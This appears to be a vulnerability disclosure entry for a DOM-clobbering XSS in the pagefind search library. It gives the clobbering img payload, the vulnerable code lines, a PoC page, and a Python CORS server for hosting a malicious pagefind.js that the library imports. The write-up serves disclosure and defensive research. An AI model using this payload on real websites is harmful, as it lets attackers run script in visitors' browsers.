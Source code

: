 ## pagefind

### Meta

+ Library: pagefind
+ Stars: 3.3K
+ Version: v1.1.0
+ Fingerprint: `typeof PagefindUI !== 'undefined'`
+ Payload: ```<img name="currentScript" src="blob:https://xxx.xxx.xxx/ui.js"></img>```
+ Impact: XSS
+ CVE: CVE-2024-XXXXX
+ Status: Accepted
+ Foundby: TheHulk

### Library

https://github.com/cloudcannon/pagefind

### Vulnerable Code Snippet

```javascript
en = new URL(document.currentScript.src).pathname.match(/^(.*\/)(?:pagefind-)?ui.js.*$/)[1]
```

```javascript
g = await import(`${r}pagefind.js`)
```

## PoC

```html
<!--Library-->
<link href="pagefind/pagefind-ui.css" rel="stylesheet">
<script src="pagefind/pagefind-ui.js"></script>
<div id="search"></div>
<script>
    window.addEventListener('DOMContentLoaded', (event) => {
        new PagefindUI({ element: "#search", showSubResults: true });
    });
</script>
<!--Library-->

<!--Payload-->
<img name="currentScript" src="blob:http://localhost:9999/ui.js"></img>
<!--Payload-->
```

run pagefind to create index. create `pagefind.js`, needs to be hosted with Access-Control-Allow-Origin set. 

```python
#!/usr/bin/env python
from http import server

class MyHTTPRequestHandler(server.SimpleHTTPRequestHandler):
    def end_headers(self):
        self.send_header("Access-Control-Allow-Origin", "*")
        server.SimpleHTTPRequestHandler.end_headers(self)


if __name__ == '__main__':
    server.test(HandlerClass=MyHTTPRequestHandler)
```

